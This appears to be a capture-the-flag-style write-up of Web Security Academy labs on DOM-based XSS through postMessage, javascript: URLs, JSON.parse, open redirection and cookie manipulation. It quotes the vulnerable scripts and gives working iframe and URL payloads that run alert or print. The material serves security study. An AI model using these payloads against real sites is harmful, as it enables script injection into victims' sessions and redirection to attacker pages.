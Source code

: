 # Navigation
- [DOM XSS using web messages](#dom-xss-using-web-messages)
- [DOM XSS using web messages and a JavaScript URL](#dom-xss-using-web-messages-and-a-javascript-url)
- [DOM XSS using web messages and `JSON.parse`](#dom-xss-using-web-messages-and-jsonparse)
- [DOM-based open redirection](#dom-based-open-redirection)
- [DOM-based cookie manipulation](#dom-based-cookie-manipulation)
# DOM XSS using web messages
1. GET request on web root reveals the following inline script tag
```html
<script>
window.addEventListener('message', function(e) {
document.getElementById('ads').innerHTML = e.data;
})
</script>
```
- This script has got an event listener waiting for a message (which fires when the window receives a message)
- The script then adds the message it receives to the document element "ads" and uses `innerHTML` which writes its property as HTML which can be used for XSS
2. Note the target is also vulnerable to ClickJacking due to an absent X-Frame-Options or CSP header
3. Host the site in an iframe and send a web message when the page is loaded
	1. Remember to use `<img src=x` payloads for DOM XSS
```html
<iframe src="https://0a32004a03bada7f8124301900dd0001.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=alert(document.domain)>','*')">
```
# DOM XSS using web messages and a JavaScript URL
1. GET request on web root reveals the following inline script tag
```html
<script>
	window.addEventListener('message', function(e) {
		var url = e.data;
		if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
			location.href = url;
		}
	}, false);
</script>
```
- This script has an event listener waiting for a message (which fires when the window receives a message)
- If the script receives any message containing `http:` or `https:` then it will assign the value to `location.href` (`> -1`) is guaranteed to be TRUE as long as `http:` or `https:` is present in the message data
2. Note the target is also vulnerable to ClickJacking due to an absent X-Frame-Options or CSP header
3. Host the site in a iframe and send a web message when the page is loaded containing `http:` in the message
```html
<iframe src="https://0adf00b104861aae80e9217b002c0076.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.domain)//http:','*')">
```
- There is also a second payload that can be used which triggers the same XSS payload
```html
<iframe src="https://0adf00b104861aae80e9217b002c0076.web-security-academy.net/" onload="this.contentWindow.postMessage(''-alert(document.domain)-'','*')">
```
- Oddly enough, this one fires without needing to include `http:` or `https:` in the payload
# DOM XSS using web messages and `JSON.parse`
1. View web root and identify inline JavaScript function that writes to the DOM
```html
<script>
window.addEventListener('message', function(e) {
	var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
document.body.appendChild(iframe);
try {
	d = JSON.parse(e.data);
	} catch(e) {
	return;
}
switch(d.type) {
	case "page-load":
		ACMEplayer.element.scrollIntoView();
	break;
	case "load-channel":
		ACMEplayer.element.src = d.url;
	break;
	case "player-height-changed":
		ACMEplayer.element.style.width = d.width + "px";
		ACMEplayer.element.style.height = d.height + "px";
	break;
	}
}, false);
```
- We can see that if we send a web message, our data will be passed to a `JSON.parse` method and then uses a switch statement which will run is a specific type is passed in the web message
- One of interest is the "load-channel" type which will pass our data to a URL. We can use this to send a payload `javascript:alert(document.domain)`
2. Note that the target is also vulnerable to ClickJacking so we can easily send a web message
3. Construct the following malicious page
```html
<iframe src="https://0a7f005d039ba0a6804ebc11003800d4.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print(document.domain)\"}","*")'>
```
# DOM-based open redirection
- Redirect victim to exploit server
1. Explore web app
2. Identify a DOM sink commonly associated with open redirection in the HTTP response of posts
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```
- The `exec` method takes the URL object and finds the given pattern then assigns this value to the `returnUrl` variable
- It does not perform any checks on the URL given so we can create a malicious payload to by injecting `url=https://attacker.com` into the URL. This can be done using a fragment or a parameter
3. Construct a URL to control the `returnUrl` parameter
```
GET /post?postId=10&url=https://exploit-0a26005004679798803c0c6a011600e7.exploit-server.net/
```
# DOM-based cookie manipulation
- Trigger `print()` against victim
1. Viewing a product URL reveals the following inline JavaScript that sets a user's cookie
```html
<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
- This script takes the user's `window.location` value (i.e. the current URL) and sets a cookie
2. Navigating back to the home page reveals a "Last viewed product" hyperlink which is set to the value of our `lastViewedProduct` cookie
```html
<a href="lastViewedProduct cookie value"
```
3. Change cookie value in the browser tools > Refresh the page > Observe the href attribute  does not filter the cookie value and reflects it in the DOM
4. Changing cookie value to `'><img src=x onerror=alert(document.domain)>` pops in our session
5. With this working value we need to test if we can set it using the product URL
```
https://0ac3002e03320d2282ca10ef00f400e1.web-security-academy.net/product?productId=3&'><img src=x onerror=alert(document.domain)>
```
6. Go back to the home page and observe that the DOM XSS payload pops
7. Note that the target URL is vulnerable to ClickJacking which we will use to construct an iframe so we can set the victim's cookie then redirect them to the homepage to pop them
```html
<iframe src="https://0ac3002e03320d2282ca10ef00f400e1.web-security-academy.net/product?productId=3&'><img src=x onerror=alert(document.domain)>" onload="window.location = 'https://0ac3002e03320d2282ca10ef00f400e1.web-security-academy.net/'">
```